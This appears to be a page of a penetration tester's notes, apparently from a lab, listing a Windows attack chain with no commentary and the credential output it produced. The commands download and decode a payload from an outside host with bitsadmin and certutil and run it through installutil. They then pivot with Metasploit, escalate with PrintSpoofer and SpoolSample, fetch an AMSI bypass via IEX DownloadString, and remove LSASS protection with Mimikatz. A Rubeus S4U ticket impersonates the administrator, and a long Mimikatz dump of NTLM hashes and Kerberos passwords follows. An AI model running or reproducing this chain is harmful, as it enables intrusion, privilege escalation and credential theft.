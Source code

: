 bitsadmin /Transfer myJob http://192.168.49.75/imp.txt C:\users\will\enc.txt && certutil -decode C:\users\will\enc.txt C:\users\will\ConsoleApp2.exe && del C:\users\will\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\will\ConsoleApp2.exe

use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks4a or use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j

execute -H -f notepad
migrate pid
c:\inetpub\wwwroot\upload\PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
c:\inetpub\wwwroot\upload\SpoolSample.exe web01 web01/pipe/test
ps -S spoolsv
migrate pid
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.49.75/amsi.txt')
Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`""

[Rubeus.Program]::Main("s4u /user:web01$ /rc4:dd509fb2a4cceb59a691a4074aafcc62 /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

Authentication Id : 0 ; 70075 (00000000:000111bb)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:38 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : WEB01$
         * Domain   : EVIL
         * NTLM     : b07c09086397291fa00b568b3ea90f08
         * SHA1     : da29115a64631a8fd738e50df0290f62cc0a21ec
        tspkg :
        wdigest :
         * Username : WEB01$
         * Domain   : EVIL
         * Password : (null)
        kerberos :
         * Username : WEB01$
         * Domain   : evil.com
         * Password : 7d d4 b3 39 4a 47 39 c7 13 f0 83 25 db b0 34 c8 1c b9 fa b5 db 96 56 04 32 41 fc a8 20 86 f4 a9 34 f8 f3 42 f1 50 35 5d 0c 74 2c 26 20 fc f7 a7 07 db 5f fe f8 1a c8 90 9b 26 84 67 a4 6e bd 91 b9 79 7a 2d 77 10 e4 62 d8 76 a6 9d 21 67 da 4d 7f 84 bd 39 33 cc 3a f3 5b 9e 84 e3 a1 0d 20 ce ad 57 02 a7 0e ec 25 db 4e f1 89 d7 be 1a b6 58 a0 1f d5 21 1a 25 69 64 f4 14 58 30 f0 4b 15 11 ca b2 8d e5 20 38 e4 38 36 de 9b 04 9e 11 21 80 d2 da 78 10 f5 4c e9 6f 34 8d 84 da 06 db 96 66 29 35 fe 20 07 6f d5 62 a4 61 a8 ee 80 f1 79 97 5d f8 29 5f 8e 8b 26 bc 85 36 45 c9 75 91 f4 f4 c4 72 d9 49 ae f5 f4 da 14 64 f7 d6 b4 22 49 e4 8c c3 e5 ee 07 19 74 73 01 28 59 5e 96 7e 70 20 6f 01 3f 4d 26 8c d3 9b 36 2a a6 6e ca 40 9e 4f
        ssp :
        credman :

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WEB01$
Domain            : EVIL
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:37 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WEB01$
         * Domain   : EVIL
         * NTLM     : dd509fb2a4cceb59a691a4074aafcc62
         * SHA1     : 7f72c0cf2c9f420db671b525943d1b80ddd2f9c4
        tspkg :
        wdigest :
         * Username : WEB01$
         * Domain   : EVIL
         * Password : (null)
        kerberos :
         * Username : web01$
         * Domain   : EVIL.COM
         * Password : c6 4d b4 47 ce 3a 69 26 e3 5b 5f 1d 1f 5a ca 75 04 bd 2c ea 3e 01 e1 cf b7 40 d8 2b 49 66 d4 52 98 fb 84 20 22 99 b2 b4 5c 8e b3 17 1d 8f 6c df ee 7a e6 8b ab 70 b8 84 63 a3 bf 30 78 4d 96 dc 07 a4 0a 66 23 a2 89 41 3f 11 8f a8 26 b2 f4 bf 1b 57 1e 29 3a 03 c9 af 57 74 1e 5a 93 ca 19 8c 27 c9 ad dc f9 95 b4 62 b2 8d 4c 65 a0 72 5b 6f ff 99 15 3a 03 27 ff f6 e4 38 c4 95 81 b6 58 95 92 a6 1b 2a 8a 00 17 c3 f3 23 00 6c ee 09 ba 50 98 f7 67 02 c8 5c 75 d0 86 04 90 b8 6f 7f b8 01 5a 30 c5 c9 11 c4 0c 33 78 41 7a 02 a0 1b fc a8 d2 84 6c 75 47 e9 a2 f5 47 4f 0a 13 b1 66 c6 c5 9c fc cd d0 05 11 b6 b3 37 66 1c a7 fc 48 09 27 46 7f e9 c3 9b c6 e0 80 dd 93 be 01 0d 1e 91 88 61 ca df 5e 78 40 70 cd 93 e7 f0 0f 14 0d 99 e5
        ssp :
        credman :

Authentication Id : 0 ; 40376 (00000000:00009db8)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:37 AM
SID               : S-1-5-96-0-1
        msv :
         [00000003] Primary
         * Username : WEB01$
         * Domain   : EVIL
         * NTLM     : dd509fb2a4cceb59a691a4074aafcc62
         * SHA1     : 7f72c0cf2c9f420db671b525943d1b80ddd2f9c4
        tspkg :
        wdigest :
         * Username : WEB01$
         * Domain   : EVIL
         * Password : (null)
        kerberos :
         * Username : WEB01$
         * Domain   : evil.com
         * Password : c6 4d b4 47 ce 3a 69 26 e3 5b 5f 1d 1f 5a ca 75 04 bd 2c ea 3e 01 e1 cf b7 40 d8 2b 49 66 d4 52 98 fb 84 20 22 99 b2 b4 5c 8e b3 17 1d 8f 6c df ee 7a e6 8b ab 70 b8 84 63 a3 bf 30 78 4d 96 dc 07 a4 0a 66 23 a2 89 41 3f 11 8f a8 26 b2 f4 bf 1b 57 1e 29 3a 03 c9 af 57 74 1e 5a 93 ca 19 8c 27 c9 ad dc f9 95 b4 62 b2 8d 4c 65 a0 72 5b 6f ff 99 15 3a 03 27 ff f6 e4 38 c4 95 81 b6 58 95 92 a6 1b 2a 8a 00 17 c3 f3 23 00 6c ee 09 ba 50 98 f7 67 02 c8 5c 75 d0 86 04 90 b8 6f 7f b8 01 5a 30 c5 c9 11 c4 0c 33 78 41 7a 02 a0 1b fc a8 d2 84 6c 75 47 e9 a2 f5 47 4f 0a 13 b1 66 c6 c5 9c fc cd d0 05 11 b6 b3 37 66 1c a7 fc 48 09 27 46 7f e9 c3 9b c6 e0 80 dd 93 be 01 0d 1e 91 88 61 ca df 5e 78 40 70 cd 93 e7 f0 0f 14 0d 99 e5
        ssp :
        credman :

Authentication Id : 0 ; 1397843 (00000000:00155453)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 12/26/2021 6:45:33 AM
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
        msv :
         [00000003] Primary
         * Username : WEB01$
         * Domain   : EVIL
         * NTLM     : dd509fb2a4cceb59a691a4074aafcc62
         * SHA1     : 7f72c0cf2c9f420db671b525943d1b80ddd2f9c4
        tspkg :
        wdigest :
         * Username : WEB01$
         * Domain   : EVIL
         * Password : (null)
        kerberos :
         * Username : WEB01$
         * Domain   : evil.com
         * Password : c6 4d b4 47 ce 3a 69 26 e3 5b 5f 1d 1f 5a ca 75 04 bd 2c ea 3e 01 e1 cf b7 40 d8 2b 49 66 d4 52 98 fb 84 20 22 99 b2 b4 5c 8e b3 17 1d 8f 6c df ee 7a e6 8b ab 70 b8 84 63 a3 bf 30 78 4d 96 dc 07 a4 0a 66 23 a2 89 41 3f 11 8f a8 26 b2 f4 bf 1b 57 1e 29 3a 03 c9 af 57 74 1e 5a 93 ca 19 8c 27 c9 ad dc f9 95 b4 62 b2 8d 4c 65 a0 72 5b 6f ff 99 15 3a 03 27 ff f6 e4 38 c4 95 81 b6 58 95 92 a6 1b 2a 8a 00 17 c3 f3 23 00 6c ee 09 ba 50 98 f7 67 02 c8 5c 75 d0 86 04 90 b8 6f 7f b8 01 5a 30 c5 c9 11 c4 0c 33 78 41 7a 02 a0 1b fc a8 d2 84 6c 75 47 e9 a2 f5 47 4f 0a 13 b1 66 c6 c5 9c fc cd d0 05 11 b6 b3 37 66 1c a7 fc 48 09 27 46 7f e9 c3 9b c6 e0 80 dd 93 be 01 0d 1e 91 88 61 ca df 5e 78 40 70 cd 93 e7 f0 0f 14 0d 99 e5
        ssp :
        credman :

Authentication Id : 0 ; 467822 (00000000:0007236e)
Session           : Interactive from 0
User Name         : Administrator
Domain            : WEB01
Logon Server      : WEB01
Logon Time        : 12/26/2021 6:38:09 AM
SID               : S-1-5-21-1607807028-3881622887-1966001951-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : WEB01
         * NTLM     : 87cc5fd863cb29f2d1fec46733f46274
         * SHA1     : af783494dc34399abf270527f45c62b89ab206bd
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : WEB01
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : WEB01
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 347088 (00000000:00054bd0)
Session           : Interactive from 0
User Name         : Administrator
Domain            : WEB01
Logon Server      : WEB01
Logon Time        : 10/19/2021 6:18:59 AM
SID               : S-1-5-21-1607807028-3881622887-1966001951-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : WEB01
         * NTLM     : 87cc5fd863cb29f2d1fec46733f46274
         * SHA1     : af783494dc34399abf270527f45c62b89ab206bd
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : WEB01
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : WEB01
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:40 AM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:38 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70056 (00000000:000111a8)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:38 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : WEB01$
         * Domain   : EVIL
         * NTLM     : dd509fb2a4cceb59a691a4074aafcc62
         * SHA1     : 7f72c0cf2c9f420db671b525943d1b80ddd2f9c4
        tspkg :
        wdigest :
         * Username : WEB01$
         * Domain   : EVIL
         * Password : (null)
        kerberos :
         * Username : WEB01$
         * Domain   : evil.com
         * Password : c6 4d b4 47 ce 3a 69 26 e3 5b 5f 1d 1f 5a ca 75 04 bd 2c ea 3e 01 e1 cf b7 40 d8 2b 49 66 d4 52 98 fb 84 20 22 99 b2 b4 5c 8e b3 17 1d 8f 6c df ee 7a e6 8b ab 70 b8 84 63 a3 bf 30 78 4d 96 dc 07 a4 0a 66 23 a2 89 41 3f 11 8f a8 26 b2 f4 bf 1b 57 1e 29 3a 03 c9 af 57 74 1e 5a 93 ca 19 8c 27 c9 ad dc f9 95 b4 62 b2 8d 4c 65 a0 72 5b 6f ff 99 15 3a 03 27 ff f6 e4 38 c4 95 81 b6 58 95 92 a6 1b 2a 8a 00 17 c3 f3 23 00 6c ee 09 ba 50 98 f7 67 02 c8 5c 75 d0 86 04 90 b8 6f 7f b8 01 5a 30 c5 c9 11 c4 0c 33 78 41 7a 02 a0 1b fc a8 d2 84 6c 75 47 e9 a2 f5 47 4f 0a 13 b1 66 c6 c5 9c fc cd d0 05 11 b6 b3 37 66 1c a7 fc 48 09 27 46 7f e9 c3 9b c6 e0 80 dd 93 be 01 0d 1e 91 88 61 ca df 5e 78 40 70 cd 93 e7 f0 0f 14 0d 99 e5
        ssp :
        credman :

Authentication Id : 0 ; 40277 (00000000:00009d55)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:37 AM
SID               : S-1-5-96-0-0
        msv :
         [00000003] Primary
         * Username : WEB01$
         * Domain   : EVIL
         * NTLM     : dd509fb2a4cceb59a691a4074aafcc62
         * SHA1     : 7f72c0cf2c9f420db671b525943d1b80ddd2f9c4
        tspkg :
        wdigest :
         * Username : WEB01$
         * Domain   : EVIL
         * Password : (null)
        kerberos :
         * Username : WEB01$
         * Domain   : evil.com
         * Password : c6 4d b4 47 ce 3a 69 26 e3 5b 5f 1d 1f 5a ca 75 04 bd 2c ea 3e 01 e1 cf b7 40 d8 2b 49 66 d4 52 98 fb 84 20 22 99 b2 b4 5c 8e b3 17 1d 8f 6c df ee 7a e6 8b ab 70 b8 84 63 a3 bf 30 78 4d 96 dc 07 a4 0a 66 23 a2 89 41 3f 11 8f a8 26 b2 f4 bf 1b 57 1e 29 3a 03 c9 af 57 74 1e 5a 93 ca 19 8c 27 c9 ad dc f9 95 b4 62 b2 8d 4c 65 a0 72 5b 6f ff 99 15 3a 03 27 ff f6 e4 38 c4 95 81 b6 58 95 92 a6 1b 2a 8a 00 17 c3 f3 23 00 6c ee 09 ba 50 98 f7 67 02 c8 5c 75 d0 86 04 90 b8 6f 7f b8 01 5a 30 c5 c9 11 c4 0c 33 78 41 7a 02 a0 1b fc a8 d2 84 6c 75 47 e9 a2 f5 47 4f 0a 13 b1 66 c6 c5 9c fc cd d0 05 11 b6 b3 37 66 1c a7 fc 48 09 27 46 7f e9 c3 9b c6 e0 80 dd 93 be 01 0d 1e 91 88 61 ca df 5e 78 40 70 cd 93 e7 f0 0f 14 0d 99 e5
        ssp :
        credman :

Authentication Id : 0 ; 38897 (00000000:000097f1)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:37 AM
SID               :
        msv :
         [00000003] Primary
         * Username : WEB01$
         * Domain   : EVIL
         * NTLM     : dd509fb2a4cceb59a691a4074aafcc62
         * SHA1     : 7f72c0cf2c9f420db671b525943d1b80ddd2f9c4
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WEB01$
Domain            : EVIL
Logon Server      : (null)
Logon Time        : 10/19/2021 6:16:37 AM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WEB01$
         * Domain   : EVIL
         * Password : (null)
        kerberos :
         * Username : web01$
         * Domain   : EVIL.COM
         * Password : c6 4d b4 47 ce 3a 69 26 e3 5b 5f 1d 1f 5a ca 75 04 bd 2c ea 3e 01 e1 cf b7 40 d8 2b 49 66 d4 52 98 fb 84 20 22 99 b2 b4 5c 8e b3 17 1d 8f 6c df ee 7a e6 8b ab 70 b8 84 63 a3 bf 30 78 4d 96 dc 07 a4 0a 66 23 a2 89 41 3f 11 8f a8 26 b2 f4 bf 1b 57 1e 29 3a 03 c9 af 57 74 1e 5a 93 ca 19 8c 27 c9 ad dc f9 95 b4 62 b2 8d 4c 65 a0 72 5b 6f ff 99 15 3a 03 27 ff f6 e4 38 c4 95 81 b6 58 95 92 a6 1b 2a 8a 00 17 c3 f3 23 00 6c ee 09 ba 50 98 f7 67 02 c8 5c 75 d0 86 04 90 b8 6f 7f b8 01 5a 30 c5 c9 11 c4 0c 33 78 41 7a 02 a0 1b fc a8 d2 84 6c 75 47 e9 a2 f5 47 4f 0a 13 b1 66 c6 c5 9c fc cd d0 05 11 b6 b3 37 66 1c a7 fc 48 09 27 46 7f e9 c3 9b c6 e0 80 dd 93 be 01 0d 1e 91 88 61 ca df 5e 78 40 70 cd 93 e7 f0 0f 14 0d 99 e5
        ssp :
        credman :